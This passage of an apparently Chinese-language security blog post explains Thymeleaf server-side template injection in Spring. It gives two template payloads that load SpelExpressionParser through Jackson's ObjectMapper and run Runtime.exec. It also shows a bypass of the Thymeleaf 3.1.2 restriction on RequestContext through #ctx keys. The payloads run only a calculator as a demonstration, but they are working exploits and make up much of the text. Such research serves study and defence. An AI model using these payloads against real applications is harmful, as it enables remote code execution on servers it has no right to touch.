`T readValue(String content, Class<T> valueType)`用来反序列化json字符串，得到指定类的对象。

`ObjectMapper`有个`TypeFactory`属性，用来创建实例的，其`findClass`方法可以用来获取Class对象

```html
<tr th:with="clazz=${springRequestContext.webApplicationContext.beanFactory.getBean('jacksonObjectMapper').getTypeFactory().findClass('org.springframework.expression.spel.standard.SpelExpressionParser')}">
    <a th:with="instance=${springRequestContext.webApplicationContext.beanFactory.getBean('jacksonObjectMapper').readValue('{}',clazz)}">
        [[${instance.parseExpression('T(java.lang.Runtime).getRuntime().exec("calc")').getValue()}]]
    </a>
</tr>
```

### RequestContext绕过

上面的payload在`3.1.2.RELEASE`版本是打不了的，因为是通过`springMacroRequestContext`获取的应用上下文

而`RequestContext`被禁止调用其成员。

实际上`thymeleaf`提供的上下文对象`#ctx`里也存储有应用上下文对象，`#ctx`的内容是以键值对Map的形式存储，可以用中括号+键名的方式访问

模板设置为`[[${#ctx}]]`，返回的内容搜一下`AnnotationConfigServletWebServerApplicationContext`



> #ctx['org.springframework.web.servlet.DispatcherServlet.CONTEXT']
>
> 或
>
> #ctx['org.springframework.web.servlet.DispatcherServlet.THEME_SOURCE']
>
> 就能直接拿到应用上下文了

上面的payload把`springRequestContext.webApplicationContext`换成这两个就可以了。

```java
<tr th:with="clazz=${#ctx['org.springframework.web.servlet.DispatcherServlet.CONTEXT'].beanFactory.getBean('jacksonObjectMapper').getTypeFactory().findClass('org.springframework.expression.spel.standard.SpelExpressionParser')}">
    <a th:with="instance=${#ctx['org.springframework.web.servlet.DispatcherServlet.THEME_SOURCE'].beanFactory.getBean('jacksonObjectMapper').readValue('{}',clazz)}">
        [[${instance.parseExpression('T(java.lang.Runtime).getRuntime().exec("calc")').getValue()}]]
    </a>
</tr>
```

# Ref

* https://github.com/veracode-research/spring-view-manipulation
* https://xz.aliyun.com/t/10514
* https://github.com/p1n93r/SpringBootAdmin-thymeleaf-SSTI
* https://blog.0kami.cn/blog/2024/thymeleaf%20ssti%203.1.2%20%E9%BB%91%E5%90%8D%E5%8D%95%E7%BB%95%E8%BF%87/
* https://blog.arkark.dev/2022/08/01/uiuctf